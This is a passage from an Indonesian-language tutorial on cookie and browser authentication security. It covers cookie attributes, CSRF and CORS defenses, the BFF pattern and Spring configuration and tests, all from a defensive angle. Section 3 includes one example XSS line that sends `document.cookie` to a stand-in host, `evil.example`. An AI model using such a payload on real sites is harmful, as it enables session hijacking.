




# Part 014 — Cookie Security & Browser Auth

> Target part ini: memahami browser authentication boundary. Kita akan membahas cookie attribute (`HttpOnly`, `Secure`, `SameSite`, `Domain`, `Path`, `Max-Age`, `Expires`), cookie prefix (`__Host-`, `__Secure-`), CSRF, CORS, Origin validation, SPA/BFF pattern, logout cookie deletion, reverse proxy, dan implementasi di Java/Spring/Jakarta.

Browser auth bukan sekadar server mengirim `Set-Cookie`.

Browser adalah security participant.

Ia punya aturan kapan cookie dikirim, kapan JavaScript boleh membaca sesuatu, kapan request cross-origin diizinkan, kapan preflight terjadi, dan kapan cookie third-party diblokir atau dibatasi.

Banyak bug authentication terjadi karena tim backend berpikir seperti ini:

```txt
Cookie is just a header.
```

Lebih benar:

```txt
Cookie is a browser-managed credential transport mechanism with origin, site, path, security attributes, and cross-site semantics.
```

Kalau kita salah memahami browser boundary, session auth yang bagus di server tetap bisa bocor lewat CSRF, cookie scope terlalu luas, CORS salah, atau logout yang tidak menghapus cookie yang benar.

---

## 1. Mental Model: Origin, Site, Cookie, dan Credential

Empat konsep harus dipisahkan:

```txt
Origin  = scheme + host + port
Site    = registrable domain concept used by SameSite semantics
Cookie  = name/value + attributes managed by browser
Credential = sesuatu yang membuktikan continuity/authentication
```

Contoh origin:

```txt
https://app.example.com:443
https://api.example.com:443
https://admin.example.com:443
http://app.example.com:80
```

`app.example.com` dan `api.example.com` berbeda origin.

Tetapi dalam banyak konteks SameSite, keduanya bisa dianggap same-site karena sama-sama berada di bawah `example.com`.

Ini penting untuk desain:

```txt
Same-origin policy controls JavaScript access.
SameSite controls when browser sends cookies on cross-site requests.
CORS controls whether browser exposes cross-origin responses to JavaScript.
CSRF exploits automatic credential sending by browser.
```

Diagram:



---

## 2. Cookie Anatomy

Server mengirim cookie via response header:

```http
Set-Cookie: SID=abc123; Path=/; Secure; HttpOnly; SameSite=Lax
```

Browser mengirim cookie pada request yang cocok:

```http
Cookie: SID=abc123
```

Cookie attribute penting:

| Attribute | Fungsi |
|---|---|
| `HttpOnly` | Mencegah akses cookie melalui JavaScript `document.cookie`. |
| `Secure` | Cookie hanya dikirim via HTTPS. |
| `SameSite` | Mengontrol pengiriman cookie pada cross-site request. |
| `Domain` | Menentukan host/subdomain yang menerima cookie. |
| `Path` | Membatasi path request yang menerima cookie. |
| `Max-Age` | Umur cookie dalam detik. |
| `Expires` | Waktu expiry absolut. |
| `Partitioned` | Cookie partitioning untuk skenario tertentu. |

Untuk session cookie, default aman biasanya:

```http
Set-Cookie: __Host-SID=<opaque>; Path=/; Secure; HttpOnly; SameSite=Lax
```

Untuk admin console sangat sensitif:

```http
Set-Cookie: __Host-ADMIN_SID=<opaque>; Path=/; Secure; HttpOnly; SameSite=Strict
```

Tapi `Strict` punya trade-off UX: link dari email atau IdP redirect tertentu bisa tidak membawa cookie sesuai flow. Jangan pakai tanpa memahami flow.

---

## 3. `HttpOnly`: Penting, Tapi Bukan Obat XSS

`HttpOnly` membuat cookie tidak dapat dibaca oleh JavaScript normal.

Ini melindungi dari pola XSS seperti:

```js
document.location = "https://evil.example/steal?c=" + document.cookie;
```

Namun `HttpOnly` tidak membuat aplikasi aman dari XSS.

Jika attacker bisa menjalankan JavaScript di origin aplikasi, attacker tetap bisa:

- mengirim request dari browser korban;
- melakukan aksi atas nama korban;
- membaca data yang halaman tampilkan;
- memanggil API same-origin;
- memodifikasi DOM;
- mencuri CSRF token yang ada di DOM;
- melakukan social engineering inline.

Mental model:

```txt
HttpOnly protects cookie confidentiality from JavaScript.
It does not protect application integrity when XSS exists.
```

Karena itu:

- tetap butuh output encoding;
- tetap butuh Content Security Policy;
- tetap butuh CSRF defense;
- tetap butuh step-up untuk sensitive action;
- jangan menyimpan access token di `localStorage` untuk browser app sensitif.

---

## 4. `Secure`: Cookie Harus HTTPS-Only

`Secure` berarti browser hanya mengirim cookie lewat HTTPS.

Tanpa `Secure`, cookie bisa terkirim lewat HTTP jika user atau proxy mengakses endpoint HTTP yang cocok.

Konfigurasi reverse proxy harus benar:

```txt
Client HTTPS -> Reverse Proxy -> App HTTP internal
```

Aplikasi harus tahu external scheme adalah HTTPS. Kalau tidak, framework bisa salah menentukan secure cookie atau redirect.

Spring Boot biasanya perlu konfigurasi forwarded headers sesuai deployment:

```yaml
server:
  forward-headers-strategy: framework
```

Reverse proxy harus mengirim header yang benar, misalnya:

```http
X-Forwarded-Proto: https
X-Forwarded-Host: app.example.com
```

Namun jangan percaya forwarded header dari internet langsung. Header ini harus diset/di-normalisasi oleh trusted proxy, bukan diterima mentah dari client.

Invariant:

```txt
Only trusted edge components may define external scheme/host/proto identity.
```

---

## 5. `SameSite`: CSRF Mitigation, Bukan Pengganti CSRF Token Universal

`SameSite` mengontrol kapan browser mengirim cookie pada request cross-site.

Nilai umum:

| SameSite | Perilaku umum | Cocok untuk |
|---|---|---|
| `Strict` | Cookie tidak dikirim pada cross-site navigation | Admin/sensitive console dengan UX ketat |
| `Lax` | Cookie dikirim pada sebagian top-level safe navigation | Default web app umum |
| `None` | Cookie dikirim cross-site jika `Secure` | Embedded/third-party use case |

`SameSite=Lax` sering menjadi default praktis untuk session cookie web app karena mengurangi banyak CSRF klasik tanpa merusak semua navigation flow.

Tetapi jangan menganggap `SameSite` menyelesaikan semuanya:

- browser lama/perilaku embedded bisa berbeda;
- subdomain same-site masih bisa menjadi risiko;
- XSS mengalahkan CSRF defense;
- OAuth/OIDC redirect flow punya state/nonce requirement sendiri;
- cross-site form/post behavior dan top-level navigation harus diuji;
- aplikasi dengan `SameSite=None` tetap butuh CSRF defense kuat.

Rule praktis:

```txt
Use SameSite as defense-in-depth.
Use CSRF tokens or equivalent origin-bound validation for state-changing browser requests.
```

---

## 6. Domain dan Path: Footgun yang Sering Diremehkan

Cookie host-only:

```http
Set-Cookie: SID=abc; Path=/; Secure; HttpOnly
```

Jika tidak ada `Domain`, cookie hanya berlaku untuk host yang mengirimnya.

Cookie domain-wide:

```http
Set-Cookie: SID=abc; Domain=example.com; Path=/; Secure; HttpOnly
```

Ini dapat dikirim ke subdomain yang cocok.

Masalah:

```txt
If auth cookie is scoped to example.com, then any weaker subdomain can become part of the attack surface.
```

Misal:

- `marketing.example.com` punya CMS rentan;
- `staging.example.com` terlupakan;
- `old-app.example.com` tidak dipatch;
- subdomain takeover terjadi;
- semua berada di domain cookie yang sama.

Untuk session sensitif, prefer host-only cookie.

Gunakan prefix `__Host-` jika memungkinkan:

```http
Set-Cookie: __Host-SID=abc; Path=/; Secure; HttpOnly; SameSite=Lax
```

`__Host-` punya constraint browser-side: harus `Secure`, harus `Path=/`, dan tidak boleh punya `Domain`. Ini membantu mencegah cookie diset dari subdomain lain untuk domain parent.

`Path` juga bukan isolation security yang kuat. Path membatasi kapan cookie dikirim, tapi bukan boundary yang sekuat origin/host. Jangan menaruh dua aplikasi dengan trust berbeda pada host yang sama dan mengandalkan `Path` untuk isolasi auth.

---

## 7. Cookie Prefix Pattern

Gunakan prefix untuk membuat browser ikut menegakkan sebagian policy.

| Prefix | Implikasi |
|---|---|
| `__Secure-` | Cookie harus diset dengan `Secure` dari secure origin. |
| `__Host-` | Cookie harus `Secure`, `Path=/`, dan tanpa `Domain`. |

Rekomendasi:

```txt
Session cookie for main app: __Host-SID
Admin session cookie: __Host-ADMIN_SID
CSRF non-HttpOnly cookie, if double-submit pattern is used: __Host-CSRF or host-only equivalent
```

Jangan gunakan cookie domain-wide untuk auth kecuali ada alasan enterprise SSO/subdomain yang benar-benar dipahami.

---

## 8. CSRF Mental Model

CSRF terjadi ketika browser korban mengirim credential otomatis ke aplikasi target akibat request yang dipicu dari site lain.

Contoh:



Intinya:

```txt
Attacker does not need to know the cookie.
Attacker only needs the browser to send it.
```

Karena cookie otomatis dikirim browser, server harus membedakan:

```txt
Request intentionally initiated by legitimate app UI
vs
Request forged from another site
```

---

## 9. CSRF Defense Pattern

### 9.1 Synchronizer Token Pattern

Server membuat token per session atau per request, menyimpannya server-side, dan menanam token ke form/HTML.

Request state-changing harus mengirim token:

```http
POST /profile/email
Cookie: SID=...
X-CSRF-Token: random-token
```

Server memvalidasi:

```txt
session exists
csrf token exists
csrf token matches session-bound token
token not expired if per-request/per-window
action allowed
```

Spring Security punya CSRF protection untuk browser-based apps. Untuk aplikasi yang memakai session cookie, jangan disable CSRF hanya karena endpoint adalah REST JSON.

### 9.2 Double Submit Cookie Pattern

Server mengirim token di cookie non-HttpOnly dan client mengirim nilainya sebagai header.

```http
Set-Cookie: __Host-CSRF=random; Path=/; Secure; SameSite=Lax
```

Client:

```http
X-CSRF-Token: random
```

Server membandingkan cookie dan header.

Versi lebih kuat mengikat token dengan session menggunakan HMAC:

```txt
csrf = random + HMAC(server_secret, session_id_hash + random)
```

Jangan pakai double-submit naïf untuk boundary sangat sensitif jika subdomain/cookie injection risk belum terkendali.

### 9.3 Origin/Referer Validation

Untuk state-changing request, validasi `Origin` atau `Referer` bisa menjadi defense-in-depth.

```java
boolean isAllowedOrigin(HttpServletRequest request) {
    String origin = request.getHeader("Origin");
    if (origin == null) {
        return false;
    }
    return origin.equals("https://app.example.com");
}
```

Namun implementasi harus hati-hati:

- beberapa request legitimate mungkin tidak punya `Origin`;
- proxy bisa mengubah header;
- jangan match suffix secara naïf;
- `https://app.example.com.evil.example` bukan `app.example.com`;
- validasi harus exact against allowlist.

### 9.4 User Interaction Defense

Untuk aksi sangat sensitif:

- re-enter password;
- MFA/passkey assertion;
- confirmation screen;
- transaction signing;
- step-up authentication.

CSRF token melindungi request. Step-up melindungi konsekuensi bisnis.

---

## 10. CSRF dan Method Semantics

State-changing operation tidak boleh memakai `GET`.

Buruk:

```http
GET /delete-user?id=123
GET /approve-case?id=777
GET /transfer?to=bob&amount=1000
```

Lebih benar:

```http
POST /users/123/deletion-requests
POST /cases/777/approval
POST /transfers
```

Tapi mengganti GET ke POST saja tidak cukup. CSRF bisa mengirim POST via form.

Invariant:

```txt
Safe methods must be side-effect free.
Unsafe methods must require CSRF protection when browser credentials are used.
```

---

## 11. CORS Bukan CSRF Protection

CORS sering salah dipahami.

CORS mengontrol apakah browser boleh mengekspos response cross-origin ke JavaScript.

CORS tidak selalu mencegah browser mengirim request.

Contoh masalah:

```txt
Attacker form POST can still send request even if CORS would block JS reading response.
```

CORS buruk:

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

Untuk credentialed request, jangan pakai wildcard origin.

Pattern benar:

```txt
Allow exact origins only.
Allow credentials only when truly needed.
Return Vary: Origin.
Avoid reflecting arbitrary Origin.
```

Spring contoh:

```java
@Bean
CorsConfigurationSource corsConfigurationSource() {
    CorsConfiguration config = new CorsConfiguration();
    config.setAllowedOrigins(List.of("https://app.example.com"));
    config.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
    config.setAllowedHeaders(List.of("Content-Type", "X-CSRF-Token"));
    config.setAllowCredentials(true);
    config.setMaxAge(3600L);

    UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
    source.registerCorsConfiguration("/api/**", config);
    return source;
}
```

Jangan:

```java
config.setAllowedOriginPatterns(List.of("*"));
config.setAllowCredentials(true);
```

Kecuali benar-benar dipahami dan tidak membawa cookie/session credential.

---

## 12. SPA, Token, Cookie, dan BFF

Banyak tim memilih JWT di `localStorage` karena ingin SPA.

Masalahnya:

```txt
localStorage token is accessible to JavaScript.
XSS can steal it and replay it from elsewhere.
```

Cookie `HttpOnly` session lebih tahan terhadap pencurian token via JavaScript, tetapi tetap butuh CSRF defense.

Untuk SPA enterprise sensitif, pattern yang sering lebih aman:

```txt
Browser SPA -> Same-origin BFF with HttpOnly session cookie
BFF -> Resource APIs with server-side token/client credential
```

Diagram:



Keuntungan:

- token tidak perlu disimpan di browser JavaScript;
- refresh token bisa disimpan server-side;
- logout/revocation lebih terkendali;
- CSRF bisa ditangani di BFF;
- API internal tidak perlu menerima browser credential langsung.

Trade-off:

- butuh BFF layer;
- scaling session harus didesain;
- CORS/origin harus disiplin;
- websocket/SSE perlu auth handling khusus.

---

## 13. Spring Security Cookie & CSRF Configuration

Contoh baseline untuk browser app stateful:

```java
@Configuration
class BrowserSecurityConfig {

    @Bean
    SecurityFilterChain browser(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/**")
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/login", "/assets/**", "/health").permitAll()
                .anyRequest().authenticated()
            )
            .formLogin(form -> form.loginPage("/login"))
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            )
            .sessionManagement(session -> session
                .sessionFixation(fixation -> fixation.changeSessionId())
            )
            .headers(headers -> headers
                .contentSecurityPolicy(csp -> csp
                    .policyDirectives("default-src 'self'; object-src 'none'; frame-ancestors 'none'"))
            );

        return http.build();
    }
}
```

Catatan penting:

`CookieCsrfTokenRepository.withHttpOnlyFalse()` membuat CSRF token bisa dibaca JavaScript agar SPA dapat menaruhnya di header. Ini berbeda dari session cookie. Session cookie tetap harus `HttpOnly`.

Jangan menyamakan:

```txt
CSRF cookie readable by JS for header echo
Session cookie readable by JS
```

Yang kedua buruk untuk session credential.

---

## 14. Servlet Cookie Helper

Jika membuat cookie manual, buat helper terpusat.

```java
public final class AuthCookieWriter {

    public void writeSessionCookie(HttpServletResponse response, String value) {
        ResponseCookie cookie = ResponseCookie.from("__Host-SID", value)
            .httpOnly(true)
            .secure(true)
            .sameSite("Lax")
            .path("/")
            .maxAge(Duration.ofHours(8))
            .build();

        response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
    }

    public void clearSessionCookie(HttpServletResponse response) {
        ResponseCookie cookie = ResponseCookie.from("__Host-SID", "")
            .httpOnly(true)
            .secure(true)
            .sameSite("Lax")
            .path("/")
            .maxAge(Duration.ZERO)
            .build();

        response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
    }
}
```

Jika tidak memakai Spring `ResponseCookie`, dengan Servlet API murni pastikan attribute modern seperti `SameSite` bisa diset. Beberapa container/version historically butuh header manual untuk SameSite. Di stack modern, prefer API/framework yang mendukung attribute lengkap.

---

## 15. Logout Cookie Deletion

Browser menghapus cookie jika menerima cookie dengan nama, domain, dan path yang cocok serta expiry lampau / max-age zero.

Set cookie:

```http
Set-Cookie: __Host-SID=abc; Path=/; Secure; HttpOnly; SameSite=Lax
```

Clear cookie:

```http
Set-Cookie: __Host-SID=; Path=/; Max-Age=0; Secure; HttpOnly; SameSite=Lax
```

Jika cookie awal punya:

```http
Domain=example.com; Path=/app
```

Clear harus cocok:

```http
Domain=example.com; Path=/app
```

Failure mode umum:

```txt
Login sets cookie Path=/app
Logout clears cookie Path=/
Browser keeps original Path=/app cookie
User appears logged out on one route but authenticated on another
```

Testing logout harus memeriksa header `Set-Cookie`, bukan hanya redirect sukses.

---

## 16. Cookie Lifetime: Session Cookie vs Persistent Cookie

Cookie tanpa `Max-Age`/`Expires` adalah session cookie browser. Browser dapat menghapusnya saat session browser berakhir, tetapi perilaku restore session bisa membuatnya bertahan lebih lama dari ekspektasi manusia.

Persistent cookie punya umur eksplisit:

```http
Set-Cookie: __Host-SID=abc; Max-Age=28800; Path=/; Secure; HttpOnly; SameSite=Lax
```

Jangan hanya mengandalkan cookie expiry.

Server-side session juga harus punya expiry:

```txt
cookie expiry <= server session absolute expiry
server validates idle + absolute expiry every request
```

Kalau cookie masih ada tapi server session expired, request harus ditolak dan cookie sebaiknya dibersihkan.

---

## 17. Multiple Cookies dan Priority of Meaning

Aplikasi kompleks bisa punya beberapa cookie:

```txt
__Host-SID          authenticated session
__Host-CSRF         csrf token material
LOCALE              UI locale
THEME               UI preference
REMEMBER_DEVICE     low-risk device marker
OIDC_STATE          temporary login redirect state
```

Jangan membuat authorization decision dari cookie preference.

Buruk:

```java
if (cookie("ROLE").equals("ADMIN")) allow();
```

Benar:

```txt
Cookie only carries session identifier or non-security preference.
Authorization comes from server-side identity/policy.
```

---

## 18. Cross-Subdomain Authentication

Kadang enterprise ingin:

```txt
app.example.com
admin.example.com
api.example.com
```

semua memakai login yang sama.

Ada dua pattern:

### Pattern A — Domain-wide cookie

```http
Set-Cookie: SID=...; Domain=example.com; Path=/; Secure; HttpOnly; SameSite=Lax
```

Kelebihan: sederhana.

Kelemahan: semua subdomain menjadi attack surface auth.

### Pattern B — Central IdP + per-app host-only session

```txt
app.example.com has __Host-APP_SID
admin.example.com has __Host-ADMIN_SID
auth.example.com handles OIDC login
```

Kelebihan: isolasi lebih kuat.

Kelemahan: flow lebih kompleks.

Untuk sistem sensitif, prefer Pattern B.



---

## 19. CORS Configuration Decision Matrix

| Scenario | Cookie? | CORS? | CSRF? | Recommendation |
|---|---:|---:|---:|---|
| Server-rendered same-origin app | Ya | Tidak perlu | Ya | Session cookie + synchronizer token |
| SPA served same-origin as API | Ya | Tidak perlu/minimal | Ya | BFF/session cookie |
| SPA different origin from API | Ya | Ya | Ya | Exact CORS allowlist + CSRF header |
| Public third-party API | Tidak session cookie | Ya mungkin | Tidak cookie-CSRF | OAuth bearer token, no browser session |
| Admin console | Ya | Hindari | Ya kuat | Host-only Strict/Lax + step-up |
| Embedded iframe app | Ya mungkin | Ya | Ya kuat | SameSite=None; Secure + frame policy careful |

Rule:

```txt
The more cross-origin your browser auth becomes, the more explicit your security contract must be.
```

---

## 20. Testing Strategy

### 20.1 Cookie attribute test

```java
@Test
void sessionCookieHasSecureAttributes() throws Exception {
    MvcResult result = mvc.perform(post("/login")
            .param("username", "alice@example.com")
            .param("password", "correct-password"))
        .andExpect(status().is3xxRedirection())
        .andReturn();

    List<String> setCookies = result.getResponse().getHeaders("Set-Cookie");

    assertThat(setCookies).anySatisfy(cookie -> {
        assertThat(cookie).contains("__Host-SID=");
        assertThat(cookie).contains("Path=/");
        assertThat(cookie).contains("Secure");
        assertThat(cookie).contains("HttpOnly");
        assertThat(cookie).contains("SameSite=Lax");
        assertThat(cookie).doesNotContain("Domain=");
    });
}
```

### 20.2 Logout clears matching cookie

```java
@Test
void logoutClearsSessionCookieWithMatchingAttributes() throws Exception {
    MockHttpSession session = loginAs("alice@example.com");

    MvcResult result = mvc.perform(post("/logout").session(session))
        .andExpect(status().is3xxRedirection())
        .andReturn();

    assertThat(result.getResponse().getHeaders("Set-Cookie"))
        .anySatisfy(cookie -> {
            assertThat(cookie).contains("__Host-SID=");
            assertThat(cookie).contains("Max-Age=0");
            assertThat(cookie).contains("Path=/");
            assertThat(cookie).contains("Secure");
            assertThat(cookie).contains("HttpOnly");
        });
}
```

### 20.3 CSRF rejection test

```java
@Test
void stateChangingRequestWithoutCsrfIsRejected() throws Exception {
    MockHttpSession session = loginAs("alice@example.com");

    mvc.perform(post("/profile/email")
            .session(session)
            .contentType(MediaType.APPLICATION_JSON)
            .content("{\"email\":\"new@example.com\"}"))
        .andExpect(status().isForbidden());
}
```

### 20.4 CORS exact origin test

```java
@Test
void corsAllowsOnlyConfiguredOrigin() throws Exception {
    mvc.perform(options("/api/me")
            .header("Origin", "https://evil.example")
            .header("Access-Control-Request-Method", "GET"))
        .andExpect(header().doesNotExist("Access-Control-Allow-Origin"));

    mvc.perform(options("/api/me")
            .header("Origin", "https://app.example.com")
            .header("Access-Control-Request-Method", "GET"))
        .andExpect(header().string("Access-Control-Allow-Origin", "https://app.example.com"));
}
```

### 20.5 Domain scope regression test

Test manual/browser-level:

```txt
1. Login at app.example.com.
2. Inspect __Host-SID cookie.
3. Verify no Domain attribute.
4. Visit weaker-subdomain.example.com.
5. Verify session cookie is not available to that host.
```

---

## 21. Common Failure Modes

### 21.1 Session cookie lacks `HttpOnly`

Dampak: XSS dapat mencuri SID via `document.cookie`.

Defense: `HttpOnly` untuk semua session credential.

### 21.2 Session cookie lacks `Secure`

Dampak: cookie bisa terkirim lewat HTTP.

Defense: HTTPS everywhere + `Secure` + HSTS.

### 21.3 `SameSite=None` tanpa alasan

Dampak: CSRF risk meningkat dan third-party behavior lebih kompleks.

Defense: default `Lax`, `Strict` untuk admin jika flow memungkinkan.

### 21.4 Domain cookie terlalu luas

Dampak: subdomain lemah menjadi attack surface.

Defense: host-only cookie, `__Host-` prefix.

### 21.5 CORS reflect arbitrary Origin

Dampak: malicious origin bisa membaca response jika credentials allowed.

Defense: exact allowlist, no wildcard with credentials.

### 21.6 CSRF disabled untuk JSON API browser

Dampak: cookie-authenticated API bisa dipicu cross-site.

Defense: CSRF token/header atau origin validation untuk unsafe methods.

### 21.7 LocalStorage token untuk high-risk app

Dampak: XSS dapat mencuri bearer token dan replay dari luar browser.

Defense: BFF + HttpOnly session cookie, or very strong XSS controls and token lifetime design.

### 21.8 Logout cookie deletion mismatch

Dampak: cookie tetap ada.

Defense: clear dengan name/path/domain yang sama.

### 21.9 Trust forwarded headers from untrusted clients

Dampak: wrong scheme/host, redirect poisoning, secure cookie bug.

Defense: normalize at trusted proxy; app trusts only proxy.

### 21.10 Treat CORS as authorization

Dampak: non-browser clients bypass CORS entirely.

Defense: real authentication and authorization server-side.

---

## 22. Browser Auth Production Checklist

Cookie/session browser auth production-grade jika:

- session cookie `HttpOnly`;
- session cookie `Secure`;
- session cookie `SameSite=Lax` atau `Strict` sesuai flow;
- cookie auth sensitif host-only dan sebaiknya `__Host-`;
- tidak ada raw auth token di `localStorage` untuk app sensitif;
- CSRF protection aktif untuk state-changing request;
- CORS exact allowlist jika credentials dipakai;
- wildcard origin tidak dipakai dengan credentials;
- `GET` tidak mengubah state;
- logout clear cookie dengan path/domain sama;
- server-side session juga direvoke;
- reverse proxy forwarded headers dipercaya hanya dari trusted edge;
- cookie tidak domain-wide kecuali risiko subdomain sudah diterima;
- sensitive action butuh step-up;
- XSS defense tetap dianggap wajib;
- automated tests memeriksa `Set-Cookie`, CSRF rejection, dan CORS policy.

---

## 23. Design Review Questions

Gunakan saat review:

```txt
What is the exact Set-Cookie header for session?
Is the session cookie HttpOnly and Secure?
Why is SameSite value chosen?
Is the cookie host-only or domain-wide?
Can any weaker subdomain set or receive auth cookies?
Does logout clear the exact same cookie scope?
Is CSRF enabled for all unsafe browser requests?
Are CORS origins exact allowlisted?
Can wildcard origin ever be combined with credentials?
Does the app store bearer tokens in localStorage?
What happens if XSS exists despite HttpOnly?
Does the reverse proxy enforce HTTPS and normalize forwarded headers?
Are cookie attributes tested automatically?
```

Kalau jawabannya tidak eksplisit, browser auth boundary belum didesain; ia hanya “kebetulan jalan”.

---

## 24. Ringkasan

Browser authentication adalah boundary yang melibatkan server, browser, origin, site, cookie scope, dan request semantics.

Mental model utama:

```txt
Session cookie is a browser-managed bearer credential.
HttpOnly protects against JavaScript cookie theft.
Secure protects transport over HTTPS.
SameSite reduces cross-site automatic credential sending.
CSRF token proves request came through legitimate app flow.
CORS controls browser JS response access, not server authorization.
Domain and Path define cookie scope and can expand attack surface.
```

Cookie security bukan konfigurasi kosmetik. Ia menentukan apakah session authentication benar-benar aman di browser.

Part berikutnya membahas session store design: in-memory, Redis, PostgreSQL, clustered session, revocation, failover, TTL, race condition, and operational behavior.

---

## Referensi

- MDN Web Docs — `Set-Cookie` header and HTTP cookie behavior.
- MDN Web Docs — Using HTTP cookies.
- OWASP Session Management Cheat Sheet.
- OWASP Cross-Site Request Forgery Prevention Cheat Sheet.
- OWASP Authentication Cheat Sheet.
- Spring Security Reference — CSRF, CORS, session management, and security headers.
- Spring Session Reference — clustered/concurrent session behavior.
